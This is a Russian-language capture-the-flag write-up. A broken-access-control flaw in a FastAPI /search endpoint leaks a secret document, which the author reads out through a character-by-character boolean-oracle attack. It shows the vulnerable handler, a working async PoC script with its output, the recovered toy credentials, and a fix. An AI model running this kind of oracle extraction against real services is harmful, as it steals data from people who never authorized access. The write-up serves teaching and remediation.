

# Archive — Writeup

**Broken Access Control в `/search` → утечка учётных данных**

Веб-таск · Сложность: Easy · Стек: Next.js + FastAPI + PostgreSQL

## 1. О таске

Веб-архив документов с ролевой моделью доступа. Папки имеют уровень доступа `public`, `restricted` и `secret`; секретная папка **Admins** видна только роли `admin`. Цель — получить содержимое секретного документа, имея только учётку обычного пользователя.

| Компонент | Значение |
|-----------|----------|
| Фронтенд  | Next.js (порт 3000) |
| Бэкенд    | FastAPI, JWT-авторизация (порт 8000) |
| БД        | PostgreSQL |
| Роли      | guest · engineer · admin |

## 2. Разведка

Логинимся под обычным пользователем (`guest`). В проводнике доступны только папки **Public**, **Engineers** и **Managers** — секретной папки **Admins** нет, прав на неё у нас нет.


## 3. Уязвимость

Отдельные эндпоинты (`/folders`, `/document`, `/upload`) корректно проверяют уровень доступа папки. Но поиск `/search` проходит по содержимому **всех** документов и возвращает совпадения **без проверки прав**:

```python
# fastapi/main.py — эндпоинт /search (сокращённо)
@app.get("/search")
async def search_documents(query, current_user, db):
    documents = db.query(Document)          # ← ВСЕ документы, без фильтра по папке
    result = []
    for doc in documents:
        # ... декодируем содержимое из base64 ...
        if query in decoded_content:        # совпадение по подстроке
            result.append({"title": doc.title,
                           "folder_name": id2name(doc.folder_id)})
    return result                           # ← проверки access_level нет
```

Проверяем: поиск слова `user` под guest возвращает `passwords.txt` из папки **Admins** — документа, который нам недоступен напрямую.



## 4. Эксплуатация

Поиск отвечает только «есть совпадение / нет», но это уже **булев оракул**: наращивая запрос по одному символу и оставляя лишь те префиксы, что всё ещё возвращают целевой файл, можно посимвольно восстановить содержимое документа.

Алгоритм `POC.py`: стартуем с `user` + символ, каждое совпадение удлиняем на следующий символ (20 воркеров, глубина до 50):

```python
# POC.py — ядро атаки (транспорт на стандартном urllib)
def fetch(query):
    url = f"{BASE_URL}?{urlencode({'query': query})}"
    req = urllib.request.Request(url, headers=HEADERS)
    with urllib.request.urlopen(req, timeout=5) as resp:
        return resp.status, json.loads(resp.read().decode())

async def worker(queue, found):
    while True:
        q = await queue.get()
        status, results = await asyncio.to_thread(fetch, q)
        if status == 200 and any(i['title'] == TARGET_FILE for i in results):
            found.append(q); print(f"[FOUND] {q}")
            for ch in charset:                 # удлиняем найденный префикс
                if len(q + ch) <= 50:
                    await queue.put(q + ch)
        queue.task_done()
```

Запуск:

```text
$ python3 POC.py
[FOUND] user: 123, password:
[FOUND] user: 123, password: 1
[FOUND] user: 123, password: 12
[FOUND] user: 123, password: 123
Найденные совпадения:
user: 123, password: 123
```

## 5. Результат

Содержимое секретного документа восстановлено целиком обычным пользователем:

```
user: 123, password: 123
```

## 6. Причина и исправление

**Причина:** `/search` не наследует модель доступа остальных эндпоинтов — он читает содержимое документов из всех папок, включая `secret`, и возвращает совпадения любому авторизованному пользователю.

**Фикс:** перед поиском ограничить выборку папками, доступными текущей роли (как это сделано в `/folders` и `/document`): например `join(Folder).filter(Folder.access_level.in_(allowed_for(role)))`, а не `db.query(Document)` по всей таблице.
